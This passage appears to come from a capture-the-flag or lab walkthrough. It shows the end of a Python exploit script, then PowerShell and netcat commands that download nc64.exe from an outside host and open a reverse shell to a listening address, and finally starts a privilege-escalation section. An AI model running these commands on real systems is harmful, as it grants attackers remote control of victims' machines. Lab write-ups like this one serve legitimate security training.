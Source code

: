 ```py
        else:
            print(f"[-] Try python {sys.argv[0]} -h")
    except KeyboardInterrupt:
        print('User has exited the program')
```

__Getting Reverse shell__ by uploading netcat on the nbox.
```bash
powershell IWR -uri http://10.10.15.71/nc64.exe -OutFile C:\\windows\\temp\\nc64.exe
cmd /c c:\\windows\\temp\\nc64.exe 10.10.0.4 4141 -e powershell.exe
```

![](screenshots/rev-shell.png)

# Privesc:Horizontal

2 user on the box.

![](screenshots/users-in-box.png)
